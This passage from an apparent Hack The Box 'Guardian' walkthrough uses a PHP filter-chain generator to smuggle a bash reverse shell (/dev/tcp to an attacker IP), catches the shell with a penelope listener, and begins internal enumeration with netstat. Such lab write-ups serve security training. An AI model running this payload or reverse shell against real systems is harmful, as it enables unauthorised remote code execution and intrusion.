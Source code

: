 ```
$ python3 php_filter_chain_generator.py --chain '<?php system("bash -c '\''bash -i >& /dev/tcp/10.10.14.113/1234 0>&1'\''");?>'
[+] The following gadget chain will generate the following code : <?php system("bash -c 'bash -i >& /dev/tcp/10.10.14.113/1234 0>&1'");?> (base64 value: PD9waHAgc3lzdGVtKCJiYXNoIC1jICdiYXNoIC1pID4mIC9kZXYvdGNwLzEwLjEwLjE0LjExMy8xMjM0IDA+JjEnIik7Pz4)
php://filter/convert.iconv.UTF8.CSISO2022KR|...|convert.base64-decode/resource=php://temp                                                                                                   
```

Setup a listener

```
┌──(kali㉿kali)-[~/Desktop/HTB/Guardian]
└─$ penelope -p 1234
[+] Listening for reverse shells on 0.0.0.0:1234 →  127.0.0.1 • 192.168.134.128 • 10.10.14.113
➤  🏠 Main Menu (m) 💀 Payloads (p) 🔄 Clear (Ctrl-L) 🚫 Quit (q/Ctrl-C)

```

Send the request

<img width="1380" height="724" alt="image" src="https://github.com/user-attachments/assets/33cb1b04-107b-450a-969b-12c2cf4d5b5d" />

```
┌──(kali㉿kali)-[~/Desktop/HTB/Guardian]
└─$ penelope -p 1234
[+] Listening for reverse shells on 0.0.0.0:1234 →  127.0.0.1 • 192.168.134.128 • 10.10.14.113
➤  🏠 Main Menu (m) 💀 Payloads (p) 🔄 Clear (Ctrl-L) 🚫 Quit (q/Ctrl-C)
[+] Got reverse shell from guardian~10.10.11.84-Linux-x86_64 😍 Assigned SessionID <1>
[+] Attempting to upgrade shell to PTY...
[+] Shell upgraded successfully using /usr/bin/python3! 💪
[+] Interacting with session [1], Shell Type: PTY, Menu key: F12 
[+] Logging to /home/kali/.penelope/sessions/guardian~10.10.11.84-Linux-x86_64/2025_10_24-20_33_09-751.log 📜                                                                                                   
────────────────────────────────────────────────────────────────────────────────────────────────────────
bash-5.1$ 
```
### MySQL

Based on ``config.php`` that we had from **[Gitea](http://gitea.guardian.htb/Guardian/portal.guardian.htb/src/branch/main/config/config.php)**

<img width="1345" height="498" alt="image" src="https://github.com/user-attachments/assets/dde0e337-2b0b-4915-b272-a1e08106e1d4" />

```
bash-5.1$ netstat -tulnp
netstat -tulnp
(Not all processes could be identified, non-owned process info
 will not be shown, you would have to be root to see it all.)
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name    
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:80              0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:3000          0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:33060         0.0.0.0:*               LISTEN      -                   
```